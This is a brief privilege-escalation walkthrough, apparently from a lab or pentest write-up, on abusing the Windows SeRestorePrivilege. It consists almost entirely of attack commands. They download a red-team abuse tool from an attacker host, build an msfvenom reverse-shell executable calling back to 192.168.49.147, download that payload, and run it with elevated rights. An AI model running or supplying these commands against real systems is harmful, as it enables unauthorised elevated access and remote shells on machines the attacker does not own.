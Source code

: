 # SeRestorePrivilege

SeRestorePrivilege - Enabled

[https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe)

```
PS C:\Users\svc_apache$\Documents> Invoke-WebRequest -Uri http://192.168.49.147/SeRestoreAbuse.exe -OutFile SeRestoreAbuse.exe
```

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.147 LPORT=80 -f exe -o shell.exe
```

```
PS C:\Users\svc_apache$\Documents> Invoke-WebRequest -Uri http://192.168.49.147/shell.exe -OutFile shell.exe

PS C:\Users\svc_apache$\Documents> .\SeRestoreAbuse.exe "cmd /c \Users\svc_apache$\Documents\shell.exe"
```
